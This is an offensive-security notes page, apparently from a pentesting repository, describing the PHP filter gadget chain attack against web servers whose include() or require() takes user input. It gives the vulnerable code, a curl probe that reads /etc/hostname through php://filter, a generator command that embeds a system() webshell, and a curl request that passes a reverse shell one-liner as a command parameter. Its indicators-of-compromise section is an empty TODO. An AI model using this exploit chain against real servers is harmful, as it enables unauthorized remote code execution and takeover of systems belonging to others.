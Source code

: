 
# PHP Filter Gadget Chain
## Summary

A PHP Filter Gadget Chain is a technique used to obtain PHP code execution against a PHP-enabled web server, when the attacker is able to control the input to a require() or include() function call.

## Prerequisites

A PHP enabled web server, alongside some vulnerable code.

## Setup

Either of the following function calls are vulnerable to this attack. As long as the attacker-controlled input is not mangled too heavily prior to the include or require function calls, then this attack should still work. Ideally the input is not mangled at all.

```php
include($_GET['page'])
# OR
require($_GET['page'])
```

The chain requires that `extension=iconv` is set in the php.ini file, this is usually `/etc/php/php.ini`

This can be tested by performing the following request to see if any output is produced:

```bash
curl http://ip/index.php?page=php://filter/convert.base64-encode/resource=/etc/hostname
```

If the base64 encoded hostname is rendered to the site, then this RCE is possible.

## Execution

### Method 1 - PHP Filter Gadget Chain Generator

Using [this](https://github.com/synacktiv/php_filter_chain_generator) repository, and any PHP code that can lead to code execution on the target (see [Basic PHP Webshell Oneliner](./php_webshell_oneline.md)), the following command can be used to exploit the target:

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>' | tail -n1
```

![gadget chain](./images/Pasted%20image%2020230706230434.png)

Then, it's possible to run commands by using the following command:

```bash
curl http://ip/index.php?page=<gadget chain>&cmd=<reverse shell oneliner>
```

#### Indicators of Compromise

TODO
